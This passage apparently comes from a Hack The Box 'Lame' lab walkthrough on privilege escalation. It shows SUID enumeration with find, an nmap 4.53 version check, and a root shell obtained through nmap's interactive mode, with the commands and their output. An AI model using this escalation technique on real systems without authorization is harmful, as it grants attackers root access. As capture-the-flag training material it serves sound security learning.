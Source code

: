 ## Privilege Escalation

### Nmap SUID

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)
	
Using [LinEnum.sh](https://github.com/rebootuser/LinEnum) to audit Lame server, I saw nmap had SUID.

Exploit with [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#shell)

```
daemon@lame:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/nmap
<snip>
```

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 (http://insecure.org)
```

Execute nmap to get root

```
daemon@lame:/root$ /usr/bin/nmap --interactive
/usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
```